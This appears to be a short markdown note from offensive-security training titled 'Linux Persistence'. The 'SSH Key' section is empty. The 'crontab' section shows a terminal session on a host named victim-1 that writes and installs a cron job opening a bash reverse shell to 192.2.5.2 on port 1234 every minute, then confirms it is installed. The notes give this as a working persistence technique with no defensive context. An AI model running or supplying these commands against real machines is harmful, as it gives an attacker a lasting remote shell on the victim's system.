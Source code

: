 
# Linux Persistence

## SSH Key


## crontab

```bash
student@victim-1:~$ echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/192.2.5.2/1234 0>&1'" > cron

student@victim-1:~$ cat cron
* * * * * /bin/bash -c 'bash -i >& /dev/tcp/192.2.5.2/1234 0>&1'

student@victim-1:~$ crontab -i cron

student@victim-1:~$ crontab -l
* * * * * /bin/bash -c 'bash -i >& /dev/tcp/192.2.5.2/1234 0>&1'
```